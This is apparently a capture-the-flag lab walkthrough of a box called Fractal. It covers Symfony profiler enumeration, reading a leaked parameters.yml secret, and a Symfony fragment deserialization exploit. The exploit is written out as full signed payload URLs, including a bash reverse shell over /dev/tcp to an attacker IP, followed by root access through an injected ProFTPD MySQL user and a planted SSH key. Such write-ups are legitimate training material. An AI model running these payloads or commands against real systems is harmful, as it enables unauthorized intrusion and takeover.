


Fractal was an extremely useful box to learn and train my MySQL skills. It starts with identifying a Symfony CMS through HTTP enumeration. 

The Symfony profiler was explored, leading to finding sensitive files and obtaining database credentials. 

Using these credentials, a Symfony exploit script was executed to achieve Remote Code Execution (RCE) and gain a reverse shell.

Privilege escalation involved creating a new user via MySQL, allowing SSH access with elevated privileges, eventually leading to root access.

# Diagram




## Information Gathering

### Port Scan
---

- `nmap -sS -Pn -n --open -p- -T4 192.168.192.233`
    
    
    
- `nmap -sVC -p 21,22,80 192.168.192.233`
    
    


## Enumeration

### HTTP 80

---

- [http://192.168.192.233/](http://192.168.230.233/)
    
    
    
- [http://192.168.192.233/robots.txt](http://192.168.230.233/robots.txt) → CMS symfony 3.4
    
    

I Forced an error to appear
    
- [http://192.168.192.233/app_dev.php/randomfile](http://192.168.230.233/app_dev.php/*)
    
    
    
- [http://192.168.192.233/app_dev.php/_profiler/empty/search/results?limit=10](http://192.168.230.233/app_dev.php/_profiler/empty/search/results?limit=10) 
- [https://github.com/symfony/symfony/issues/28002](https://github.com/symfony/symfony/issues/28002)
    
    
    

- Profile Token
    
    
    
Accessed as if it were an admin panel.

- [http://192.168.192.233/app_dev.php/_profiler/c7b124](http://192.168.192.233/app_dev.php/_profiler/c7b124) 
    
    
    

Checking the branch on GitHub, it is possible to view documentation about upgrading Symfony 3.x, so we might find sensitive files.

- [https://github.dev/symfony/symfony/tree/3.4](https://github.dev/symfony/symfony/tree/3.4)
    
    
    

Then I decided to investigate the _profiler to find directories since I tried passing it as a URL and got nothing. I filtered by all these statuses to avoid issues.

- `ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.192.233/app_dev.php/_profiler/FUZZ -fs 47400,47401,47402,47403,47404,47405,47406,47407,47408,47409,47410,47411,47412,47413,47414,47415,47416,47417,47418,47419,47420,47421,47422,47423,47424,47425,47426,47427,47428,47429,47430,47431,47432,47433,47434,47435,47436,47437,47438,47439,47440,47441,47442,47443,47444,47445,47446,47447,47448,47449,47450,47451,47452,47453,47454,47455,47456,47457,47458,47459,47460,47461,47462,47463,47464,47465,47466,47467,47468,47469,47470,47471,47472,47473,47474,47475,47476,47477,47478,47479,47480,47481,47482,47483,47484,47485,47486,47487,47488,47489,47490,47491,47492,47493,47494,47495,47496,47497,47498,47499`
    
Found 2 directories “latest” and “open”


    

Investigating the latest had nothing...


Says the file is not readable. So, I will try to read the file found “.yml” on GitHub.

- [http://192.168.192.233/app_dev.php/_profiler/open](http://192.168.192.233/app_dev.php/_profiler/open)
    
    
    

- `ffuf -u http://192.168.192.233/app_dev.php/_profiler/open?FUZZ=app/config/parameters.yml -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 -fs 5522` → Found "file"
    
    
    

Now accessing the URL, I've found Database credentials.

- [http://192.168.192.233/app_dev.php/_profiler/open?file=app/config/parameters.yml](http://192.168.192.233/app_dev.php/_profiler/open?file=app/config/parameters.yml) 
    
    
    

## Exploitation

Searching a lot, I found the following article [https://al1z4deh.medium.com/how-i-hacked-28-sites-at-once-rce-5458211048d5](https://al1z4deh.medium.com/how-i-hacked-28-sites-at-once-rce-5458211048d5) 

- [https://raw.githubusercontent.com/ambionics/symfony-exploits/main/secret_fragment_exploit.py](https://raw.githubusercontent.com/ambionics/symfony-exploits/main/secret_fragment_exploit.py)

Inside it, there is an exploit from a fragment. I tried to enumerate the secret but found nothing.

- `python3 secret_fragment_exploit.py http://192.168.192.233/_fragment`
    
    
    

Then I decided to use the secret found in the database.

- `python3 secret_fragment_exploit.py 'http://192.168.192.233/_fragment' --method 2 --secret '48a8538e6260789558f0dfe29861c05b' --algo 'sha256' --internal-url 'http://192.168.192.233/_fragment' --function system --parameters "id"`
    
    
    

Now accessing the generated URL. I was able to execute commands.

- [http://192.168.192.233/_fragment?_path=_controller%3DSymfony%255CComponent%255CYaml%255CInline%253A%253Aparse%26value%3D%2521php%252Fobject%2BO%253A32%253A%2522Monolog%255CHandler%255CSyslogUdpHandler%2522%253A1%253A%257Bs%253A9%253A%2522%2500%252A%2500socket%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BN%253Bs%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522-1%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257Ds%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522id%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257D%257D%26exceptionOnInvalidType%3D0%26objectSupport%3D1%26objectForMap%3D0%26references%3D%26flags%3D516&_hash=11%2FxvG%2BUpm6nlv7maKqSHFIXdN0BjTshxq568sphXaU%3D](http://192.168.192.233/_fragment?_path=_controller%3DSymfony%255CComponent%255CYaml%255CInline%253A%253Aparse%26value%3D%2521php%252Fobject%2BO%253A32%253A%2522Monolog%255CHandler%255CSyslogUdpHandler%2522%253A1%253A%257Bs%253A9%253A%2522%2500%252A%2500socket%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BN%253Bs%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522-1%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257Ds%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522id%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257D%257D%26exceptionOnInvalidType%3D0%26objectSupport%3D1%26objectForMap%3D0%26references%3D%26flags%3D516&_hash=11%2FxvG%2BUpm6nlv7maKqSHFIXdN0BjTshxq568sphXaU%3D)
    
    
    

- `python3 secret_fragment_exploit.py '[http://192.168.192.233/_fragment](http://192.168.192.233/_fragment)' \
--method 2 \
--secret '48a8538e6260789558f0dfe29861c05b' \
--algo 'sha256' \
--internal-url '[http://192.168.192.233/_fragment](http://192.168.192.233/_fragment)' \
--function system \
--parameters "bash -c 'bash -i >& /dev/tcp/192.168.45.227/80 0>&1'"`
    
    
    
- [http://192.168.192.233/_fragment?_path=_controller%3DSymfony%255CComponent%255CYaml%255CInline%253A%253Aparse%26value%3D%2521php%252Fobject%2BO%253A32%253A%2522Monolog%255CHandler%255CSyslogUdpHandler%2522%253A1%253A%257Bs%253A9%253A%2522%2500%252A%2500socket%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BN%253Bs%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522-1%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257Ds%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A52%253A%2522bash%2B-c%2B%2527bash%2B-i%2B%253E%2526%2B%252Fdev%252Ftcp%252F192.168.45.227%252F80%2B0%253E%25261%2527%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257D%257D%26exceptionOnInvalidType%3D0%26objectSupport%3D1%26objectForMap%3D0%26references%3D%26flags%3D516&_hash=PC7%2FGws9sawDouQ0AzUn3VpCDiEZhuUcPt01QQOMvx4%3D](http://192.168.192.233/_fragment?_path=_controller%3DSymfony%255CComponent%255CYaml%255CInline%253A%253Aparse%26value%3D%2521php%252Fobject%2BO%253A32%253A%2522Monolog%255CHandler%255CSyslogUdpHandler%2522%253A1%253A%257Bs%253A9%253A%2522%2500%252A%2500socket%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BN%253Bs%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522-1%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257Ds%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A52%253A%2522bash%2B-c%2B%2527bash%2B-i%2B%253E%2526%2B%252Fdev%252Ftcp%252F192.168.45.227%252F80%2B0%253E%25261%2527%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257D%257D%26exceptionOnInvalidType%3D0%26objectSupport%3D1%26objectForMap%3D0%26references%3D%26flags%3D516&_hash=PC7%2FGws9sawDouQ0AzUn3VpCDiEZhuUcPt01QQOMvx4%3D)
- `rlwrap nc -lvnp 80`
    
    
    

- `local.txt`
    
    
    

## Priv Escalation

- `cat /etc/passwd` → there is the user benoit
    
    
    

I previously obtained access to database information, let's check and access it.

- `netstat -nlpt`
    
    
    

I tried to access MySQL with the credentials obtained earlier but failed. Then I looked for cron, kernel version, SSH, etc., but found nothing. So I decided to look at the FTP configuration files.

- `ls -lah /etc/proftpd`
    
    
    
- `cat sql.conf`
    
    
    

Let's connect to SQL.

- `mysql -u proftpd -p proftpd` : `protfpd_with_MYSQL_password` → 
    
    

It seems to have a password for www to access proftpd. FTP authentication through ProFTPD

I will create a new password for the user **benoit** who already exists in the system.

 

In the `{md5}` base64-encoded format. Therefore, the right way to generate a password for the user **benoit** is to use the base64-encoded MD5 hash method.


- `/bin/echo "{md5}"/bin/echo -n "hendrich" | openssl dgst -binary -md5 | openssl enc -base64`
- ```INSERT INTO `ftpuser` (`id`, `userid`, `passwd`, `uid`, `gid`, `homedir`, `shell`, `count`, `accessed`, `modified`) VALUES (NULL, 'benoit', '{md5}wZjbZseC3NVjPeEobwukRg==', 1000, 1000, '/', '/bin/bash', 0, NOW(), NOW());```
    
    
    

Now logging into FTP


- `ftp 192.168.192.233` `benoit:hendrich`
    
    
    

- `ssh-keygen`
    
    
    
- `cp id_rsa.pub authorized_keys`
- `mkdir .ssh`
- `put authorized_keys`
    
    
    

- `ssh -i id_rsa benoit@192.168.192.233`
    
    
    

- `sudo -l` → has permission to execute everything. sudo su works
    
    
    

- `flag`
    
    